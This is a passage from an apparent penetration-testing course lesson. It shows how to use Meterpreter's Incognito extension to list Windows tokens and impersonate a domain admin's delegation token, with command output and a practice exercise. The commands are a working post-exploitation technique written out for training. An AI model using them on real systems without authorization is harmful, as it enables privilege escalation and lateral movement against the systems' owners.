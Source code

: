 > Listing 45 - Loading Incognito extension

We'll focus on list_tokens -u, which will list all currently used tokens by unique username:

```
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
corp1\admin
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
NT SERVICE\SQLTELEMETRY$SQLEXPRESS
Window Manager\DWM-1

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON
```

> Listing 46 - Dumping available tokens

The output reveals a delegation token for the domain user _admin_.

Next we'll run impersonate_token to impersonate the _admin_ user through the Win32 _ImpersonateLoggedOnUser_[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5354-2) API. To invoke it, we must specify the user name of the token we want to impersonate:

```
meterpreter > impersonate_token corp1\\admin
[+] Delegation token available
[+] Successfully impersonated user corp1\admin

meterpreter > getuid
Server username: corp1\admin
```

> Listing 47 - Impersonating token for the user admin

Listing 47 shows that we were able to impersonate the domain user _admin_ from a delegation token, which will allow us to perform actions on this server and authenticate against remote computers in the context of that user.

With this approach, we have impersonated a user within a Meterpreter shell without writing to disk.

#### Exercise

1. Use a SYSTEM Meterpreter shell to list all tokens and impersonate a delegation token for the domain user _admin_.

1

(Rapid7, 2015), [https://github.com/rapid7/meterpreter/blob/master/source/extensions/incognito/incognito.c](https://github.com/rapid7/meterpreter/blob/master/source/extensions/incognito/incognito.c) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5354-1)
